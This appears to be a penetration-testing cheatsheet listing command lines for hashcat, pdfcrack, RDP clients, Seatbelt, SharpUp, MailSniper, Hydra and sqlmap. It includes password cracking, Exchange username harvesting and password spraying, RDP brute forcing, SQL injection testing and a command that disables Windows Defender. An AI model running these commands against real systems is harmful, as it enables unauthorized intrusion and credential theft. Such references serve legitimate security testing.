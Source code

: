 # Tools Cheatsheet

<!--
##################################################################
##################################################################
-->

## Hashcat

#### Show example hashes

`hashcat --example-hashes`

#### Crack .htpasswd

`hashcat -a 0 -m 1600 captured-hash.txt password-list.txt`

<!--
##################################################################
##################################################################
-->

## PDFcrack

#### Bruteforce using Wordlist

`pdfcrack -f document.pdf -w /usr/share/wordlists/rockyou.txt`

<!--
##################################################################
##################################################################
-->

## xfreerdp

#### RDP into Box

`xfreerdp hostip`

#### RDP using Username and Password

`xfreerdp -u username -p password hostip`

<!--
##################################################################
##################################################################
-->

## rdesktop

`rdesktop hostip`

<!--
##################################################################
##################################################################
-->

## [Seatbelt](https://github.com/GhostPack/Seatbelt)

**Seatbelt is a C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.**
**Seatbelt is a great tool for enumerating a windows host for security weaknesses.**

#### Check for UAC bypass

`Seatbelt.exe uac`

#### Show Token Privileges

`Seatbelt.exe TokenPrivileges`

<!--
##################################################################
##################################################################
-->

## [SharpUp](https://github.com/GhostPack/SharpUp)

**SharpUp can enumerate the host for any misconfiguration-based priv-esc opportunities.**

#### Run all checks

`SharpUp.exe`

#### Check for Always Install Elevated

`SharpUp.exe AlwaysInstallElevated`

#### Check for Unquoted Service Paths

`SharpUp.exe UnquotedServicePath`

<!--
##################################################################
##################################################################
-->

## [PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1)

**PowerView has long been the de-facto tool for domain enumeration.**

<!--
##################################################################
##################################################################
-->

## [MailSniper](https://github.com/dafthack/MailSniper)

**MailSniper is a penetration testing tool for searching through email in a Microsoft Exchange environment for specific terms (passwords, insider intel, network architecture information, etc.).**

#### Disable Windows Defender

`Set-MpPreference -DisableRealtimeMonitoring $true`

#### Import into Powershell

`ipmo C:\PATHTOMAILSNIPER\MailSniper\MailSniper.ps1`

#### Enumerate NetBIOS

`Invoke-DomainHarvestOWA -ExchHostname $targetip`

#### Use timing attack to validate username list

`Invoke-UsernameHarvestOWA -ExchHostname TARGETIP -Domain SOMEDOMAIN -UserList .\possible-usernames.txt -OutFile valid.txt`

#### Spray specific password against verified usernames

`Invoke-PasswordSprayOWA -ExchHostname TARGETIP -UserList .\valid.txt -Password Summer2021`

#### Get Global Address List using valid username and password

`Get-GlobalAddressList -ExchHostname TARGETIP -UserName DOMAIN\USERNAME -Password Summer2021 -OutFile gal.txt`

<!--
##################################################################
##################################################################
-->

## [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)

**A set of Python scripts/utilities that tries to make password spraying attacks against Lync/S4B & OWA a lot quicker, less painful and more efficient.**

<!--
##################################################################
##################################################################
-->

## [namemash.py](https://gist.github.com/superkojiman/11076951)

**A python script that will take a person's full name, and transform it into possible username permutations**

#### Create list

`namemash.py names.txt >> possible-usernames.txt`


<!--
##################################################################
##################################################################
-->

## Hydra

#### Bruteforce RDP password

`hydra -t 1 -V -f -l administrator -P rockyou.txt rdp://192.168.1.1`

<!--
##################################################################
##################################################################
-->

## Sqlmap

#### Run wizard

`sqlmap --wizard`

#### Test a POST request

`sqlmap -u http://192.168.220.141:81/Admin/login.php --data="username=admin&password=admin&login="`